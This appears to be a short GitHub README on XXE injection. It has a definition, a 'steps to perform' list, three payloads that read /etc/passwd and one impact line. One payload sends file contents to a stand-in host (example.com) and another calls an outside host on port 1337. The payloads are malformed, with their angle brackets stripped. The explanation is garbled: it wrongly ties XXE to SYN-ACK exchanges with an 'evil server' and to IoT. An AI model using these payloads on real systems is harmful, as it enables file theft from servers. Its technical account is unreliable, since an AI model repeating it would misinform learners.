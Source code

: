 # XXE injection. 
# What is XXE injection? 
XXE injection also known as XML external entity injection. IT is a type of back end web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. IT works on SYN-ACK type of communication between evil sever and genuine server. It is more applicable in IoT and also known  as one of IoT attacks. XXE injection attack can be escalated by compormising server by using SSRF (server side request forgery).  
![XXE_600x315](https://user-images.githubusercontent.com/115407638/204035060-03d35c3f-eff2-48fb-8fd3-e61cc5bf77c0.png) 

# Steps to perform XXE injection. 
1) Client sends requests to the server XXE data. 
2) Server sends SYN-ACK sommand to evil server. 
3) XXE payload is injected and sent to the genuine server that asks for c:/windows/win.ini 
4) XXE vulnerablity of attacker is exploited. 

# Payloads Used 
1) ?xml version="1.0"? "!DOCTYPE data [<!ELEMENT data (#ANY)><!ENTITY file SYSTEM "file:///etc/passwd"] 
2) ?xml version="1.0"?!DOCTYPE foo[ELEMENT foo (#ANY)!ENTITY % xxe SYSTEM "file:///etc/passwd"!ENTITY blind SYSTEM "https://www.example.com/?%xxe;"foo&blind;] 
3) ?xml version="1.0" encoding="UTF-7"? +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA++ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4













# Impact 
XXE injection vulnerablity basically works on data in use and transit data. It can cause the loss of sensitive info of an organisation or an individual. 
